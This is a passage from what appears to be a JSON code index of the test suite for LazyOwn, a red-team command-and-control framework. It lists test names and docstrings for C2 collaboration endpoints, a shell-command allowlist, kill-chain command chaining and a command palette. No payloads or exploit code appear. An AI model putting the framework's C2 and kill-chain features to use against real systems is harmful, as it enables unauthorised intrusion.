test_multiple_operators(self, reg)"}, {"kind": "method", "line": 355, "name": "test_heartbeat_keeps_alive", "signature": "def test_heartbeat_keeps_alive(self, reg)"}, {"kind": "method", "line": 360, "name": "test_reset_clears_all", "signature": "def test_reset_clears_all(self, reg)"}, {"kind": "method", "line": 373, "name": "client", "signature": "def client(self)"}, {"kind": "method", "line": 378, "name": "test_operators_endpoint_returns_json", "signature": "def test_operators_endpoint_returns_json(self, client)"}, {"kind": "method", "line": 385, "name": "test_locks_endpoint_returns_json", "signature": "def test_locks_endpoint_returns_json(self, client)"}, {"kind": "method", "line": 391, "name": "test_publish_endpoint_accepts_event", "signature": "def test_publish_endpoint_accepts_event(self, client)"}, {"kind": "method", "line": 397, "name": "test_publish_rejects_non_dict_payload", "signature": "def test_publish_rejects_non_dict_payload(self, client)"}, {"kind": "method", "line": 401, "name": "test_lock_endpoint_acquires", "signature": "def test_lock_endpoint_acquires(self, client)"}, {"kind": "method", "line": 407, "name": "test_unlock_endpoint_releases", "signature": "def test_unlock_endpoint_releases(self, client)"}, {"kind": "method", "line": 413, "name": "test_history_endpoint_returns_events", "signature": "def test_history_endpoint_returns_events(self, client)"}, {"kind": "method", "line": 420, "name": "test_lock_missing_target_returns_400", "signature": "def test_lock_missing_target_returns_400(self, client)"}, {"kind": "method", "line": 432, "name": "html", "signature": "def html(self)"}, {"kind": "method", "line": 435, "name": "test_extends_base", "signature": "def test_extends_base(self, html)"}, {"kind": "method", "line": 438, "name": "test_has_sse_connect", "signature": "def test_has_sse_connect(self, html)"}, {"kind": "method", "line": 441, "name": "test_has_operator_list", "signature": "def test_has_operator_list(self, html)"}, {"kind": "method", "line": 444, "name": "test_has_lock_ui", "signature": "def test_has_lock_ui(self, html)"}, {"kind": "method", "line": 447, "name": "test_has_event_log", "signature": "def test_has_event_log(self, html)"}, {"kind": "method", "line": 450, "name": "test_has_chat_input", "signature": "def test_has_chat_input(self, html)"}, {"kind": "method", "line": 453, "name": "test_has_refresh_operators", "signature": "def test_has_refresh_operators(self, html)"}, {"kind": "method", "line": 456, "name": "test_has_join_url_display", "signature": "def test_has_join_url_display(self, html)"}, {"kind": "method", "line": 459, "name": "test_no_hardcoded_ips", "signature": "def test_no_hardcoded_ips(self)"}, {"doc": "Text of the module that defines ``do_collab_join``.\n\nThe monolith split moved ``do_collab_join`` from ``lazyown.py`` into\n``cli/commands/misc_migrated.py`` and later into\n``cli/commands/session_ops.py``.", "kind": "method", "line": 474, "name": "command_src", "signature": "def command_src(self)"}, {"kind": "method", "line": 483, "name": "test_collab_join_defined", "signature": "def test_collab_join_defined(self, command_src)"}, {"kind": "method", "line": 486, "name": "test_collab_join_uses_lhost", "signature": "def test_collab_join_uses_lhost(self, command_src)"}, {"kind": "method", "line": 489, "name": "test_collab_join_uses_c2_port", "signature": "def test_collab_join_uses_c2_port(self, command_src)"}, {"kind": "method", "line": 492, "name": "test_collab_join_prints_ui_url", "signature": "def test_collab_join_prints_ui_url(self, command_src)"}, {"kind": "method", "line": 495, "name": "test_collab_join_has_docstring", "signature": "def test_collab_join_has_docstring(self, command_src)"}]}, {"doc": "TDD tests for the command allowlist contract.  Contract: ``lazyc2.security.command_allowlist.CommandAllowlist`` gates the ``/api/run`` endpoint so only whitelisted first tokens reach the shell.  Invariants:  1. The allowlist is matched on the first whitespace-delimited token. 2. A blank or non-string command is rejected. 3. Shell metacharacters anywhere in the command are rejected, even if the first token is in the allowlist (defence in depth). 4. Case-insensitive matching is supported. 5. The audit log is a single JSON object per line.", "id": "tests/test_command_allowlist.py", "kind": "module", "label": "test_command_allowlist.py", "language": "py", "sha256": "8ef254c14eb9ac98", "symbol_count": 14, "symbols": [{"doc": "Verify the happy path.", "kind": "class", "line": 29, "name": "TestBasicAllow", "signature": "class TestBasicAllow"}, {"doc": "Verify that metacharacters always result in rejection.", "kind": "class", "line": 45, "name": "TestShellMetachars", "signature": "class TestShellMetachars"}, {"doc": "Verify edge cases on the input shape.", "kind": "class", "line": 70, "name": "TestEmptyInput", "signature": "class TestEmptyInput"}, {"doc": "Verify case-insensitive matching.", "kind": "class", "line": 92, "name": "TestCaseInsensitive", "signature": "class TestCaseInsensitive"}, {"doc": "Verify the audit log is written line-by-line JSON.", "kind": "class", "line": 101, "name": "TestAuditLog", "signature": "class TestAuditLog"}, {"kind": "method", "line": 32, "name": "test_known_command_is_allowed", "signature": "def test_known_command_is_allowed(self)"}, {"kind": "method", "line": 38, "name": "test_unknown_command_is_denied", "signature": "def test_unknown_command_is_denied(self)"}, {"kind": "method", "line": 60, "name": "test_metachar_rejected", "signature": "def test_metachar_rejected(self, payload)"}, {"kind": "method", "line": 73, "name": "test_empty_string_rejected", "signature": "def test_empty_string_rejected(self)"}, {"kind": "method", "line": 79, "name": "test_whitespace_only_rejected", "signature": "def test_whitespace_only_rejected(self)"}, {"kind": "method", "line": 85, "name": "test_non_string_rejected", "signature": "def test_non_string_rejected(self)"}, {"kind": "method", "line": 95, "name": "test_uppercase_token_matches", "signature": "def test_uppercase_token_matches(self)"}, {"kind": "method", "line": 104, "name": "test_audit_log_appends_jsonl", "signature": "def test_audit_log_appends_jsonl(self, tmp_path)"}, {"kind": "method", "line": 116, "name": "test_audit_log_disabled_is_noop", "signature": "def test_audit_log_disabled_is_noop(self, tmp_path)"}]}, {"doc": "BDD behavior scenarios for the command allowlist contract.", "id": "tests/test_command_allowlist_behavior.py", "kind": "module", "label": "test_command_allowlist_behavior.py", "language": "py", "sha256": "ebcc32ce5b89fd13", "symbol_count": 3, "symbols": [{"doc": "Given a whitelisted first token, the gate allows the command.", "kind": "function", "line": 11, "name": "test_given_allowlisted_ping_when_checked_then_allowed", "signature": "def test_given_allowlisted_ping_when_checked_then_allowed()"}, {"doc": "Given a non-allowlisted verb, the gate denies.", "kind": "function", "line": 18, "name": "test_given_rm_when_checked_then_denied", "signature": "def test_given_rm_when_checked_then_denied()"}, {"doc": "Given a metachar injection, the gate denies and the attempt is audited.", "kind": "function", "line": 26, "name": "test_given_injection_when_checked_then_denied", "signature": "def test_given_injection_when_checked_then_denied(tmp_path)"}]}, {"doc": "Tests for cli/command_chain.py.  The chain module is decomposed into single-responsibility collaborators so each level of behaviour is covered in isolation, plus a small set of facade-level tests that exercise the composition wired in CommandChain.  Tests follow the same conventions as ``tests/test_reactive_hints.py`` and ``tests/test_exploration_engine.py`` — fakes are injected via constructor arguments, no monkeypatching of module globals.", "id": "tests/test_command_chain.py", "kind": "module", "label": "test_command_chain.py", "language": "py", "sha256": "dd83ecf5d457ce53", "symbol_count": 24, "symbols": [{"kind": "function", "line": 39, "name": "_svc", "signature": "def _svc(service, port, host, proto)"}, {"doc": "Minimal ExplorationEngine double — only the methods the chain uses.", "kind": "class", "line": 43, "name": "_FakeEngine", "signature": "class _FakeEngine"}, {"kind": "function", "line": 71, "name": "test_normalise_strips_do_prefix_and_extra_tokens", "signature": "def test_normalise_strips_do_prefix_and_extra_tokens()"}, {"kind": "function", "line": 78, "name": "test_prerequisites_known_and_unknown", "signature": "def test_prerequisites_known_and_unknown()"}, {"kind": "function", "line": 86, "name": "test_missing_prerequisites_skips_already_run", "signature": "def test_missing_prerequisites_skips_already_run()"}, {"kind": "function", "line": 93, "name": "test_static_next_registry_uses_killchain_table", "signature": "def test_static_next_registry_uses_killchain_table()"}, {"kind": "function", "line": 101, "name": "test_static_next_registry_phase_priority_fallback", "signature": "def test_static_next_registry_phase_priority_fallback()"}, {"kind": "function", "line": 108, "name": "test_service_next_resolver_maps_known_services_only", "signature": "def test_service_next_resolver_maps_known_services_only()"}, {"kind": "function", "line": 118, "name": "test_service_next_resolver_dedupes_repeated_services", "signature": "def test_service_next_resolver_dedupes_repeated_services()"}, {"kind": "function", "line": 125, "name": "test_dynamic_next_resolver_orders_static_before_dynamic", "signature": "def test_dynamic_next_resolver_orders_static_before_dynamic()"}, {"kind": "function", "line": 136, "name": "test_dynamic_next_resolver_filters_history", "signature": "def test_dynamic_next_resolver_filters_history()"}, {"kind": "function", "line": 143, "name": "test_dynamic_next_resolver_empty_verb_prefers_phase_priority", "signature": "def test_dynamic_next_resolver_empty_verb_prefers_phase_priority()"}, {"kind": "function", "line": 152, "name": "test_dynamic_next_resolver_includes_unexplored_addons_and_tools", "signature": "def test_dynamic_next_resolver_includes_unexplored_addons_and_tools()"}, {"kind": "function", "line": 181, "name": "test_dynamic_next_resolver_phase_fallback_when_no_signal", "signature": "def test_dynamic_next_resolver_phase_fallback_when_no_signal()"}, {"kind": "function", "line": 189, "name": "test_dynamic_next_resolver_respects_limit", "signature": "def test_dynamic_next_resolver_respects_limit()"}, {"kind": "function", "line": 196, "name": "test_chain_facade_returns_serialisable_view", "signature": "def test_chain_facade_returns_serialisable_view()"}, {"kind": "function", "line": 207, "name": "test_chain_missing_prerequisites_when_history_empty", "signature": "def test_chain_missing_prerequisites_when_history_empty()"}, {"kind": "function", "line": 213, "name": "test_next_step_to_dict_round_trip", "signature": "def test_next_step_to_dict_round_trip()"}, {"kind": "function", "line": 218, "name": "test_chain_config_defaults_are_isolated_per_instance", "signature": "def test_chain_config_defaults_are_isolated_per_instance()"}, {"kind": "method", "line": 46, "name": "__init__", "signature": "def __init__(self, services, addons, tools, history)"}, {"kind": "method", "line": 58, "name": "services", "signature": "def services(self, target)"}, {"kind": "method", "line": 61, "name": "unexplored_addons", "signature": "def unexplored_addons(self, target)"}, {"kind": "method", "line": 64, "name": "unexplored_tools", "signature": "def unexplored_tools(self, target)"}, {"kind": "method", "line": 67, "name": "history", "signature": "def history(self)"}]}, {"doc": "Tests for cli/command_form.py.  Exercises field selection, default propagation from payload, command assembly and the runner override.", "id": "tests/test_command_form.py", "kind": "module", "label": "test_command_form.py", "language": "py", "sha256": "794e90b986023748", "symbol_count": 13, "symbols": [{"kind": "function", "line": 23, "name": "_index", "signature": "def _index()"}, {"doc": "Commands without a per-command field set fall back to the default.", "kind": "function", "line": 32, "name": "test_fields_default_set_when_command_unknown", "signature": "def test_fields_default_set_when_command_unknown()"}, {"doc": "Per-command sets win over the default.", "kind": "function", "line": 44, "name": "test_fields_specific_set_for_known_command", "signature": "def test_fields_specific_set_for_known_command()"}, {"doc": "Fields are pre-populated from the matching payload key.", "kind": "function", "line": 57, "name": "test_initial_values_come_from_payload", "signature": "def test_initial_values_come_from_payload()"}, {"doc": "Diverging values are surfaced as ``(payload_key, value)`` tuples.", "kind": "function", "line": 70, "name": "test_overrides_lists_diverging_field_payload_pairs", "signature": "def test_overrides_lists_diverging_field_payload_pairs()"}, {"doc": "Untouched fields produce no overrides.", "kind": "function", "line": 84, "name": "test_overrides_empty_when_values_match_payload", "signature": "def test_overrides_empty_when_values_match_payload()"}, {"doc": "``verb_line`` strips ``do_`` and appends extra args when present.", "kind": "function", "line": 96, "name": "test_verb_line_returns_just_verb_without_extras", "signature": "def test_verb_line_returns_just_verb_without_extras()"}, {"doc": "The preview string keeps overrides + verb on a single readable line.", "kind": "function", "line": 109, "name": "test_build_command_preview_renders_annotations_and_verb", "signature": "def test_build_command_preview_renders_annotations_and_verb()"}, {"doc": "A name present in the index is reported as valid.", "kind": "function", "line": 124, "name": "test_is_valid_true_when_command_known", "signature": "def test_is_valid_true_when_command_known()"}, {"doc": "An unknown verb is reported as invalid.", "kind": "function", "line": 136, "name": "test_is_valid_false_for_unknown_command", "signature": "def test_is_valid_false_for_unknown_command()"}, {"doc": "The runner override lets tests bypass Textual and inspect overrides.", "kind": "function", "line": 147, "name": "test_launch_form_runner_returns_state", "signature": "def test_launch_form_runner_returns_state()"}, {"doc": "The factory wires through ``cli.palette.load_index`` when no override given.", "kind": "function", "line": 162, "name": "test_build_state_loads_from_default_index", "signature": "def test_build_state_loads_from_default_index(monkeypatch)"}, {"kind": "function", "line": 151, "name": "runner", "signature": "def runner(context)"}]}, {"doc": "Cross-CommandSet command-name uniqueness contract.  cmd2 refuses to register a second ``do_<name>`` once a command exists (and aborts the whole CommandSet mid-registration), which happened live with ``do_lazy_evidence`` defined by both ``lazyops`` and ``lazyloop``. This test parses ``cli/commands/*.py`` and fails on any ``do_*`` name defined by more than one class.", "id": "tests/test_command_namespace_uniqueness.py", "kind": "module", "label": "test_command_namespace_uniqueness.py", "language": "py", "sha256": "300c44c257aba161", "symbol_count": 3, "symbols": [{"doc": "Whether the class extends a ``*CommandSet`` base (cmd2 scope).", "kind": "function", "line": 19, "name": "_is_command_set", "signature": "def _is_command_set(node)"}, {"doc": "Map every CommandSet ``do_*`` name to its ``file:class`` owners.", "kind": "function", "line": 28, "name": "_command_definitions", "signature": "def _command_definitions()"}, {"doc": "A ``do_*`` name must have exactly one owning CommandSet class.", "kind": "function", "line": 42, "name": "test_no_command_defined_by_two_command_sets", "signature": "def test_no_command_defined_by_two_command_sets()"}]}, {"doc": "Command palette test suite.  Single, self-contained test surface for the operator command palette feature spanning three layers:  - The static AST generator in ``scripts/build_command_index.py`` and the on-disk artefact ``cli/command_index.json``. - The read-only loader API in ``cli/palette.py``. - The pure parser, query, renderer and completer in ``cli/palette_command.py`` and the thin glue wired into ``lazyown.py``.  Architecture follows the same SOLID partitioning as the production code:  - :class:`PaletteSuiteConfig` is the only place where paths, expected invariants, schema fields, AST conventions and known legacy duplicates live. Every test class consumes the config rather than redeclaring literals. - One test class per responsibility so a failure points at one specific contract — index invariants, legacy duplicates, generator determinism, generator helpers, loader API, argument parser, index query, renderer, completer, top-level dispatcher, ``lazyown.py`` wiring. - Behavioural tests for the parser, query, renderer and completer run against a synthetic in-memory index produced by :func:`_build_synthetic_index`, so they remain decoupled from the size and contents of the live ``cli/command_index.json``.", "id": "tests/test_command_palette.py", "kind": "module", "label": "test_command_palette.py", "language": "py", "sha256": "20e8f368ae02bf5d", "symbol_count": 238, "symbols": [{"doc": "Centralised constants for the entire palette suite.\n\nEvery literal the suite depends on lives here so adding a new probe\nor moving the index file means editing one location.", "kind": "class", "line": 43, "name": "PaletteSuiteConfig", "signature": "class PaletteSuiteConfig"}, {"doc": "Single, immutable configuration shared by every test class.", "kind": "function", "line": 205, "name": "suite_config", "signature": "def suite_config()"}, {"doc": "Make repository top-level packages importable for the suite.", "kind": "function", "line": 211, "name": "_ensure_repo_on_path", "signature": "def _ensure_repo_on_path(suite_config)"}, {"doc": "The on-disk command-index document, loaded once per session.", "kind": "function", "line": 218, "name": "index_document", "signature": "def index_document(suite_config)"}, {"doc": "Yield every public ``cli/commands/*.py`` module path.", "kind": "function", "line": 228, "name": "_iter_command_modules", "signature": "def _iter_command_modules(config)"}, {"doc": "Return every direct ``do_*`` method name in any class in ``path``.\n\nNested ``http.server`` request handlers expose ``do_GET``/``do_POST``\nstyle methods that are not operator commands, so their classes are\nskipped to mirror the production ``scripts/build_command_index.py``\nscanner.", "kind": "function", "line": 237, "name": "_collect_do_method_names", "signature": "def _collect_do_method_names(path, prefix)"}, {"doc": "Static AST sweep of every operator-visible ``do_*`` name.", "kind": "function", "line": 272, "name": "ast_command_names", "signature": "def ast_command_names(suite_config)"}, {"doc": "Construct a small, deterministic in-memory index for behaviour tests.\n\nShape mirrors the schema of the on-disk artefact so every consumer of\nthe production index can be exercised without loading the full\ncatalogue.", "kind": "function", "line": 281, "name": "_build_synthetic_index", "signature": "def _build_synthetic_index(config)"}, {"doc": "In-memory index used by parser/query/renderer/completer tests.", "kind": "function", "line": 387, "name": "synthetic_index", "signature": "def synthetic_index(suite_config)"}, {"doc": "Return the textual body of a method defined in ``src``.\n\nArgs:\n    src: Full source text of a Python module.\n    name: Method name to locate.\n\nReturns:\n    The slice between the ``def <name>(...)`` line and the next sibling\n    ``def`` / decorator at the same indentation, or the empty string\n    when the method is missing.", "kind": "function", "line": 392, "name": "_extract_method_body", "signature": "def _extract_method_body(src, name)"}, {"doc": "Hard guarantees about the on-disk command-index document.", "kind": "class", "line": 412, "name": "TestCommandIndexInvariants", "signature": "class TestCommandIndexInvariants"}, {"doc": "The two pre-existing legacy duplicates must remain visible.", "kind": "class", "line": 473, "name": "TestKnownLegacyDuplicates", "signature": "class TestKnownLegacyDuplicates"}, {"doc": "A second build must produce a byte-identical document.", "kind": "class", "line": 505, "name": "TestGeneratorDeterminism", "signature": "class TestGeneratorDeterminism"}, {"doc": "Pure-function unit tests for the small helpers in the generator.", "kind": "class", "line": 524, "name": "TestGeneratorHelpers", "signature": "class TestGeneratorHelpers"}, {"doc": "Behaviour of :mod:`cli.palette` against the live index.", "kind": "class", "line": 566, "name": "TestPaletteLoader", "signature": "class TestPaletteLoader"}, {"doc": "Routing rules for raw command lines.", "kind": "class", "line": 647, "name": "TestPaletteArgumentParser", "signature": "class TestPaletteArgumentParser"}, {"doc": "Behaviour of :class:`PaletteIndexQuery` over a synthetic index.", "kind": "class", "line": 729, "name": "TestPaletteIndexQuery", "signature": "class TestPaletteIndexQuery"}, {"doc": "Plain-text formatting of query results.", "kind": "class", "line": 795, "name": "TestPaletteRenderer", "signature": "class TestPaletteRenderer"}, {"doc": "Tab-completion candidate selection.", "kind": "class", "line": 879, "name": "TestPaletteCompleter", "signature": "class TestPaletteCompleter"}, {"doc": "The top-level :func:`render` dispatcher.", "kind": "class", "line": 965, "name": "TestPaletteEntryPoint", "signature": "class TestPaletteEntryPoint"}, {"doc": "Static verification that ``lazyown.py`` exposes the palette glue.", "kind": "class", "line": 1014, "name": "TestLazyOwnWiring", "signature": "class TestLazyOwnWiring"}, {"doc": "Behaviour of :func:`render_json` and :class:`PaletteJsonRenderer`.", "kind": "class", "line": 1075, "name": "TestPaletteJsonRenderer", "signature": "class TestPaletteJsonRenderer"}, {"doc": "Behaviour of :func:`build_palette_view`.", "kind": "class", "line": 1192, "name": "TestPaletteViewBuilder", "signature": "class TestPaletteViewBuilder"}, {"doc": "Static verification of the MCP ``lazyown_palette`` tool wiring.", "kind": "class", "line": 1338, "name": "TestMcpPaletteWiring", "signature": "class TestMcpPaletteWiring"}, {"doc": "Static verification of the C2 ``/palette`` route + template.", "kind": "class", "line": 1405, "name": "TestC2PaletteRoute", "signature": "class TestC2PaletteRoute"}, {"doc": "Construct a tiny in-memory graphify document for neighbour tests.\n\nTwo ``do_*`` commands share two helpers and one diverges; the file label\nand a noisy ``.cmd()`` callee verify the renderer's exclusion logic.", "kind": "function", "line": 1484, "name": "_build_synthetic_graph", "signature": "def _build_synthetic_graph()"}, {"doc": "In-memory graph used by :class:`TestPaletteGraph`.", "kind": "function", "line": 1518, "name": "synthetic_graph", "signature": "def synthetic_graph()"}, {"doc": "Behaviour of :mod:`cli.palette_graph`.", "kind": "class", "line": 1523, "name": "TestPaletteGraphLoader", "signature": "class TestPaletteGraphLoader"}, {"doc": "Renderers must surface graph-derived ``calls`` and ``related`` lists.", "kind": "class", "line": 1643, "name": "TestPaletteDetailEnrichment", "signature": "class TestPaletteDetailEnrichment"}, {"doc": "``--next`` recommends the phase that follows in the kill-chain order.", "kind": "class", "line": 1751, "name": "TestPaletteNextMode", "signature": "class TestPaletteNextMode"}, {"doc": "Static verification of the JSON ``/api/palette`` endpoint.", "kind": "class", "line": 1873, "name": "TestC2PaletteApiRoute", "signature": "class TestC2PaletteApiRoute"}, {"doc": "Static verification of the global Cmd+K / Ctrl+K overlay markup.", "kind": "class", "line": 1920, "name": "TestBaseTemplateOverlay", "signature": "class TestBaseTemplateOverlay"}, {"doc": "The MCP description must advertise the new modes.", "kind": "class", "line": 1952, "name": "TestMcpPaletteDescription", "signature": "class TestMcpPaletteDescription"}, {"doc": "Materialise a deterministic session-report CSV used by telemetry tests.\n\nThe shape mirrors the real artefact written by\n:meth:`LazyOwnShell.log_command_to_csv` — a single header row followed by\na chronological sequence of invocations. The fixture covers:\n\n- repeated invocations (``do_lazynmap`` × 3) for run-count assertions,\n- co-occurrence within the default window (``do_lazynmap`` → ``do_smbclient``),\n- mixed prefixed/non-prefixed forms in the ``command`` column,\n- excluded sentinel verbs (``exit``, blank rows) that must be ignored.", "kind": "function", "line": 1970, "name": "_write_synthetic_csv", "signature": "def _write_synthetic_csv(target)"}, {"doc": "Yield a path to a freshly-written synthetic telemetry CSV.", "kind": "function", "line": 1998, "name": "synthetic_telemetry_path", "signature": "def synthetic_telemetry_path(tmp_path)"}, {"doc": "Reset the lru_cache so every telemetry test sees its own CSV.", "kind": "function", "line": 2006, "name": "_reset_telemetry_cache", "signature": "def _reset_telemetry_cache()"}, {"doc": "Behavioural CSV parser, recents and co-occurrence.", "kind": "class", "line": 2015, "name": "TestPaletteTelemetryLoader", "signature": "class TestPaletteTelemetryLoader"}, {"doc": "The detail renderer surfaces telemetry rows when available.", "kind": "class", "line": 2140, "name": "TestPaletteDetailTelemetryRendering", "signature": "class TestPaletteDetailTelemetryRendering"}, {"doc": "The JSON catalogue endpoint must be rate-limited.", "kind": "class", "line": 2198, "name": "TestC2PaletteApiRateLimit", "signature": "class TestC2PaletteApiRateLimit"}, {"doc": "The Cmd+K overlay surfaces telemetry without breaking existing markers.", "kind": "class", "line": 2225, "name": "TestBaseTemplateOverlayTelemetry", "signature": "class TestBaseTemplateOverlayTelemetry"}, {"doc": "``_enrich_detail_entry`` blends graph and telemetry data.", "kind": "class", "line": 2249, "name": "TestPaletteEnrichmentBlend", "signature": "class TestPaletteEnrichmentBlend"}, {"doc": "Absolute path to the repository root.", "kind": "method", "line": 159, "name": "repo_root", "signature": "def repo_root(self)"}, {"doc": "Absolute path to the on-disk command index JSON.", "kind": "method", "line": 164, "name": "index_path", "signature": "def index_path(self)"}, {"doc": "Absolute path to the legacy ``lazyown.py`` entry point.", "kind": "method", "line": 169, "name": "lazyown_path", "signature": "def lazyown_path(self)"}, {"doc": "Directory holding the modular phase ``CommandSet`` files.", "kind": "method", "line": 174, "name": "cli_commands_dir", "signature": "def cli_commands_dir(self)"}, {"doc": "Absolute path to the MCP server entry point.", "kind": "method", "line": 179, "name": "mcp_path", "signature": "def mcp_path(self)"}, {"doc": "Absolute path to the C2 web server entry point.", "kind": "method", "line": 184, "name": "lazyc2_path", "signature": "def lazyc2_path(self)"}, {"doc": "Absolute path to the C2 palette Jinja2 template.", "kind": "method", "line": 189, "name": "palette_template_path", "signature": "def palette_template_path(self)"}, {"doc": "Absolute path to the shared C2 base layout template.", "kind": "method", "line": 194, "name": "base_template_path", "signature": "def base_template_path(self)"}, {"doc": "Absolute path to the graphify export consumed by neighbour lookups.", "kind": "method", "line": 199, "name": "graphify_path", "signature": "def graphify_path(self)"}, {"doc": "Schema version is pinned and must match the configured expectation.", "kind": "method", "line": 415, "name": "test_schema_version_matches_config", "signature": "def test_schema_version_matches_config(self, index_document, suite_config)"}, {"doc": "Every required top-level key is present in the document.", "kind": "method", "line": 421, "name": "test_top_level_keys_present", "signature": "def test_top_level_keys_present(self, index_document, suite_config)"}, {"doc": "``totals`` is consistent with the underlying command list.", "kind": "method", "line": 426, "name": "test_totals_match_command_list", "signature": "def test_totals_match_command_list(self, index_document)"}, {"doc": "Each command entry exposes the full required field set.", "kind": "method", "line": 435, "name": "test_required_command_fields", "signature": "def test_required_command_fields(self, index_document, suite_config)"}, {"doc": "``phase_to_commands`` is exactly derivable from ``commands``.", "kind": "method", "line": 444, "name": "test_phase_buckets_match_commands", "signature": "def test_phase_buckets_match_commands(self, index_document)"}, {"doc": "The index must hold every command an AST sweep can discover.", "kind": "method", "line": 452, "name": "test_no_command_lost_vs_ast", "signature": "def test_no_command_lost_vs_ast(self, index_document, ast_command_names)"}, {"doc": "The unique-command total agrees with the AST sweep.", "kind": "method", "line": 464, "name": "test_unique_count_matches_ast", "signature": "def test_unique_count_matches_ast(self, index_document, ast_command_names)"}, {"doc": "Each known legacy duplicate is reported in ``duplicates``.", "kind": "method", "line": 476, "name": "test_duplicate_names_listed", "signature": "def test_duplicate_names_listed(self, index_document, suite_config)"}, {"doc": "Duplicate locations must match the recorded line numbers.", "kind": "method", "line": 481, "name": "test_duplicate_lines_match", "signature": "def test_duplicate_lines_match(self, index_document, suite_config)"}, {"doc": "Each duplicate name appears with ``duplicate_of`` set.", "kind": "method", "line": 488, "name": "test_duplicate_marked_in_command_list", "signature": "def test_duplicate_marked_in_command_list(self, index_document, suite_config)"}, {"doc": "Exactly one canonical (non-shadowed) entry survives per name.", "kind": "method", "line": 495, "name": "test_one_canonical_per_duplicate", "signature": "def test_one_canonical_per_duplicate(self, index_document, suite_config)"}, {"doc": "Two consecutive builds produce equal documents.", "kind": "method", "line": 508, "name": "test_render_document_is_idempotent", "signature": "def test_render_document_is_idempotent(self)"}, {"doc": "A fresh build must equal the committed JSON byte-for-byte.", "kind": "method", "line": 516, "name": "test_check_mode_passes_on_committed_index", "signature": "def test_check_mode_passes_on_committed_index(self, index_document)"}, {"doc": "Long docstrings are truncated to the configured maximum.", "kind": "method", "line": 527, "name": "test_summary_truncates_to_max_chars", "signature": "def test_summary_truncates_to_max_chars(self, suite_config)"}, {"doc": "Only the first non-empty docstring line is captured.", "kind": "method", "line": 537, "name": "test_summary_first_line_only", "signature": "def test_summary_first_line_only(self)"}, {"doc": "A category constant resolves through the lookup table.", "kind": "method", "line": 544, "name": "test_resolve_category_constant_name", "signature": "def test_resolve_category_constant_name(self)"}, {"doc": "A literal-string category is returned verbatim.", "kind": "method", "line": 551, "name": "test_resolve_category_string_literal", "signature": "def test_resolve_category_string_literal(self)"}, {"doc": "A method with no category decorator yields ``None``.", "kind": "method", "line": 558, "name": "test_resolve_category_missing", "signature": "def test_resolve_category_missing(self)"}, {"doc": "Reset the LRU cache so each test sees a fresh load.", "kind": "method", "line": 569, "name": "setup_method", "signature": "def setup_method(self)"}, {"doc": "The loader returns a document with the pinned schema version.", "kind": "method", "line": 575, "name": "test_load_index_returns_document", "signature": "def test_load_index_returns_document(self, suite_config)"}, {"doc": "Default listing omits shadowed duplicate entries.", "kind": "method", "line": 582, "name": "test_all_commands_excludes_duplicates_by_default", "signature": "def test_all_commands_excludes_duplicates_by_default(self)"}, {"doc": "Explicit opt-in returns the raw method-level list.\n\nThe delta between the canonical list and the include-duplicates\nlist equals the number of duplicate occurrences across every\nduplicate name, not the count of unique duplicate names — a name\npresent in three places contributes two duplicate entries.", "kind": "method", "line": 589, "name": "test_all_commands_with_duplicates_includes_them", "signature": "def test_all_commands_with_duplicates_includes_them(self)"}, {"doc": "Filter result rows all carry the requested phase.", "kind": "method", "line": 604, "name": "test_filter_by_phase_returns_only_matching_phase", "signature": "def test_filter_by_phase_returns_only_matching_phase(self, suite_config)"}, {"doc": "Unknown phases yield an empty list, not an exception.", "kind": "method", "line": 612, "name": "test_filter_by_phase_unknown_returns_empty", "signature": "def test_filter_by_phase_unknown_returns_empty(self)"}, {"doc": "The ``get`` helper accepts both ``do_x`` and ``x`` forms.", "kind": "method", "line": 618, "name": "test_get_resolves_with_or_without_prefix", "signature": "def test_get_resolves_with_or_without_prefix(self, suite_config)"}, {"doc": "A missing index path raises :class:`CommandIndexError`.", "kind": "method", "line": 628, "name": "test_missing_index_raises_command_index_error", "signature": "def test_missing_index_raises_command_index_error(self, tmp_path)"}, {"doc": "Invalid JSON content raises :class:`CommandIndexError`.", "kind": "method", "line": 636, "name": "test_malformed_json_raises_command_index_error", "signature": "def test_malformed_json_raises_command_index_error(self, tmp_path, suite_config)"}, {"doc": "A parser bound to the default render config.", "kind": "method", "line": 651, "name": "parser", "signature": "def parser(self)"}, {"doc": "Empty input always produces the overview.", "kind": "method", "line": 657, "name": "test_empty_line_routes_to_overview", "signature": "def test_empty_line_routes_to_overview(self, parser, suite_config)"}, {"doc": "A single token that matches a phase routes to phase mode.", "kind": "method", "line": 664, "name": "test_known_phase_token_routes_to_phase", "signature": "def test_known_phase_token_routes_to_phase(self, suite_config, parser)"}, {"doc": "A non-phase token routes to fuzzy search.", "kind": "method", "line": 673, "name": "test_unknown_token_routes_to_search", "signature": "def test_unknown_token_routes_to_search(self, suite_config, parser)"}, {"doc": "A phase plus a second token narrows the listing.", "kind": "method", "line": 681, "name": "test_phase_with_query_token", "signature": "def test_phase_with_query_token(self, suite_config, parser)"}, {"doc": "The ``--search`` flag forces search mode.", "kind": "method", "line": 691, "name": "test_search_flag_routes_to_search", "signature": "def test_search_flag_routes_to_search(self, suite_config, parser)"}, {"doc": "The ``--info`` flag forces detail mode.", "kind": "method", "line": 700, "name": "test_info_flag_routes_to_detail", "signature": "def test_info_flag_routes_to_detail(self, suite_config, parser)"}, {"doc": "Phase matching does not depend on letter case.", "kind": "method", "line": 712, "name": "test_phase_match_is_case_insensitive", "signature": "def test_phase_match_is_case_insensitive(self, suite_config, parser)"}, {"doc": "Unterminated quotes degrade gracefully to whitespace split.", "kind": "method", "line": 721, "name": "test_malformed_quote_does_not_raise", "signature": "def test_malformed_quote_does_not_raise(self, suite_config, parser)"}, {"doc": "A fresh query bound to the synthetic index.", "kind": "method", "line": 733, "name": "query", "signature": "def query(self, synthetic_index)"}, {"doc": "The canonical command list contains no shadowed duplicates.", "kind": "method", "line": 739, "name": "test_commands_excludes_duplicates", "signature": "def test_commands_excludes_duplicates(self, query)"}, {"doc": "Phases are returned in deterministic alphabetical order.", "kind": "method", "line": 744, "name": "test_phases_returns_sorted", "signature": "def test_phases_returns_sorted(self, query, suite_config)"}, {"doc": "Reported counts equal the unique names per phase bucket.", "kind": "method", "line": 748, "name": "test_phase_counts_match_phase_buckets", "signature": "def test_phase_counts_match_phase_buckets(self, query, synthetic_index)"}, {"doc": "``in_phase`` returns only commands carrying the target phase.", "kind": "method", "line": 753, "name": "test_in_phase_filters_to_target", "signature": "def test_in_phase_filters_to_target(self, query, suite_config)"}, {"doc": "Substring search hits both names and summaries.", "kind": "method", "line": 759, "name": "test_search_substring_match", "signature": "def test_search_substring_match(self, query, suite_config)"}, {"doc": "Zero limit short-circuits to empty results.", "kind": "method", "line": 764, "name": 